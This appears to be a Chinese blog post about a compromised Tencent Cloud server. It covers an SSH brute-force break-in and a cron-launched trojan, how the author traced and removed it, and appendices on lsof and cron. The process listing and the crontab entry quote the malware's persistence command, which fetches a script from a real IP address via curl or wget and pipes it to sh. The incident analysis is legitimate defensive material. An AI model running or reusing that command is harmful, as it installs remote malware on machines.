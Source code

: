 ```yaml
---
title: ECS遭遇安全攻击的一次经历
date: 2019-05-04 20:11:03
tags:
---
```


突然，腾讯云发出安全提示信息，先是SSH暴力破解的警告，过了几天又是ECS被植入木马的警告，Linux的安全防护被提上日程了！

# 服务器的问题表现

{% asset_img alert-0.png 腾讯云的警告信息汇总%}

- 登录ECS服务器，用`top`命令检查系统状态，发现CPU负荷长期维持100%，系统响应缓慢，其中`/tmp/vThHH`严重消耗资源，确认中招了！

{% asset_img alert-1.png SSH暴力破解的警告信息%}

- 服务器的root口令没有变化，但登录成功时提示有几百个`failed login attempts`，说明SSH口令已经被暴力破解

# 系统检查的主要工作

主要从以下几个方面入手：

1. 检查网络服务

使用`netstat -nlp`，发现除了22，80，443端口，还对外暴露了可疑的7946端口，调用者是`/tmp/vThHH`。

2. 检查系统进程

通过`ps -ef`命令，跟踪可疑进程`/tmp/vThHH`，发现父进程就是木马程序`/usr/bin/ybznfa2`。
进一步检查，发现了木马的加载进程。

```
root      4365   736  0 18:30 ?        00:00:00 /usr/sbin/CROND -n
root      4366  4365  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
root      4367  4366  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) |sh
```

3. 检查cron任务

该木马由crond启动，通过`crontab -u root -l`检查定时任务，发现每15分钟就执行一次上述bash脚本，这就是木马的埋点！

```
*/15 * * * * (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -fsSL -m180 http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
```

# 该木马的工作原理

- 通过网络爬虫等手段收集服务器域名信息
- 以服务器默认的root用户，通过ssh暴力破解获得口令
- 通过ssh登录，添加cron定时任务，从远端服务器下载木马程序，并存放在多个目录下
- 后台启动木马，打开自定义端口进行远程控制

# 处理措施

- 手工清理cron的任务清单
- 手工杀死`/tmp/vThHH`，`/usr/bin/ybznfa2`等可疑进程
- 手工删除上述木马程序
- 检查系统进程、网络服务、定时任务等状态，确认问题解决

# 如何彻底解决SSH暴力破解的威胁？

最有效的方法就是，关闭口令登录方式，改为密钥登录，请参见下一片文章。

**应该说，腾讯云提供的安全服务还是比较有效的，赞一个！**

---

# 附录1: 关于lsof命令

查看被占用端口的归属进程，可用使用`lsof -i:<port>`命令。

```
[root@VM_0_17_centos log]# lsof -i:80
COMMAND PID  USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nginx   936  root    6u  IPv4  15296      0t0  TCP *:http (LISTEN)
nginx   937 nginx    6u  IPv4  15296      0t0  TCP *:http (LISTEN)
```

查看某个进程使用的系统资源信息，包括文件、端口等，可以使用`lsof -p <pid>` 命令。

```
[root@VM_0_17_centos log]# lsof -p 527
COMMAND   PID USER   FD      TYPE             DEVICE SIZE/OFF   NODE NAME
YDService 527 root  cwd       DIR              253,1     4096 525988 /usr/local/qcloud/YunJing/YDEyes
YDService 527 root  rtd       DIR              253,1     4096      2 /
YDService 527 root  txt       REG              253,1  5194952 525989 /usr/local/qcloud/YunJing/YDEyes/YDService
YDService 527 root  mem       REG              253,1    68192 266804 /usr/lib64/libbz2.so.1.0.6
YDService 527 root  mem       REG              253,1   157424 266780 /usr/lib64/liblzma.so.5.2.2
YDService 527 root  mem       REG              253,1    90248 265916 /usr/lib64/libz.so.1.2.7
YDService 527 root  mem       REG              253,1    99944 266803 /usr/lib64/libelf-0.170.so
YDService 527 root  mem       REG              253,1    19896 266044 /usr/lib64/libattr.so.1.1.0
YDService 527 root  mem       REG              253,1   297360 274746 /usr/lib64/libdw-0.170.so
YDService 527 root  mem       REG              253,1    20032 266047 /usr/lib64/libcap.so.2.22
YDService 527 root  mem       REG              253,1    86544 274509 /usr/lib64/libnss_myhostname.so.2
YDService 527 root  mem       REG              253,1   106848 265653 /usr/lib64/libresolv-2.17.so
YDService 527 root  mem       REG              253,1    31824 265641 /usr/lib64/libnss_dns-2.17.so
YDService 527 root  mem       REG              253,1    62184 265643 /usr/lib64/libnss_files-2.17.so
YDService 527 root  mem       REG              253,1  2173512 265625 /usr/lib64/libc-2.17.so
YDService 527 root  mem       REG              253,1    88720 262170 /usr/lib64/libgcc_s-4.8.5-20150702.so.1
YDService 527 root  mem       REG              253,1  1139680 265633 /usr/lib64/libm-2.17.so
YDService 527 root  mem       REG              253,1   995840 265950 /usr/lib64/libstdc++.so.6.0.19
YDService 527 root  mem       REG              253,1    19776 265631 /usr/lib64/libdl-2.17.so
YDService 527 root  mem       REG              253,1   144792 265651 /usr/lib64/libpthread-2.17.so
YDService 527 root  mem       REG              253,1    44448 265655 /usr/lib64/librt-2.17.so
YDService 527 root  mem       REG              253,1   164240 265618 /usr/lib64/ld-2.17.so
YDService 527 root    0w      REG              253,1   227581 525140 /usr/local/qcloud/YunJing/log/ydservice.20190505.log
YDService 527 root    1u      CHR                1,3      0t0   5078 /dev/null
YDService 527 root    2u  a_inode               0,10        0   5074 [eventpoll]
YDService 527 root    3uW     REG               0,19        3  13104 /run/YDService.pid
YDService 527 root    4u     IPv4              17010      0t0    TCP VM_0_17_centos:45598->169.254.0.55:lsi-bobcat (ESTABLISHED)
YDService 527 root    5u     unix 0xffff8da7babcec00      0t0  17082 /usr/local/yd.socket.server
YDService 527 root    6u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root    7r  a_inode               0,10        0   5074 inotify
YDService 527 root    8u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root    9u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   10u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   11u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   24u     unix 0xffff8da7bb51fc00      0t0  17639 /usr/local/yd.socket.server
```

# 附录2：关于crontab的使用方法

- crond是常用的木马启动入口，主要的配置文件存放在 `/var/spool/cron/`目录下。

```
[root@VM_0_17_centos etc]# ls -l /var/spool/cron
总用量 4
drwxr-xr-x 2 root root 4096 4月  18 20:58 crontabs
-rw------- 1 root root    0 5月   5 11:10 root
```

- 也可能存放在`/etc/cron.d/`等类似目录下。

```
[root@VM_0_17_centos etc]# ls -lF /etc |grep cron
-rw-------.  1 root root      541 4月  11 2018 anacrontab
drwxr-xr-x.  2 root root     4096 4月  30 16:47 cron.d/
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.daily/
-rw-------.  1 root root        0 4月  11 2018 cron.deny
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.hourly/
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.monthly/
-rw-r--r--.  1 root root      451 6月  10 2014 crontab
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.weekly/
```
- cron的运行日志保存在`/var/log/cron`文件中，内容格式为

```
[root@VM_0_17_centos log]# head /var/log/cron

Dec 21 09:11:35 VM_0_17_centos crontab[1627]: (root) LIST (root)
Dec 21 09:11:35 VM_0_17_centos crontab[1626]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1698]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1702]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1701]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1728]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1730]: (root) REPLACE (root)
Dec 21 09:12:02 VM_0_17_centos CROND[1811]: (root) CMD (/usr/local/qcloud/stargate/admin/start.sh > /dev/null 2>&1 &)
Dec 21 09:12:32 VM_0_17_centos crond[739]: (CRON) INFO (Shutting down)
```

- [crontab配置方法的参考文档](http://www.cnblogs.com/longjshz/p/5779215.html)

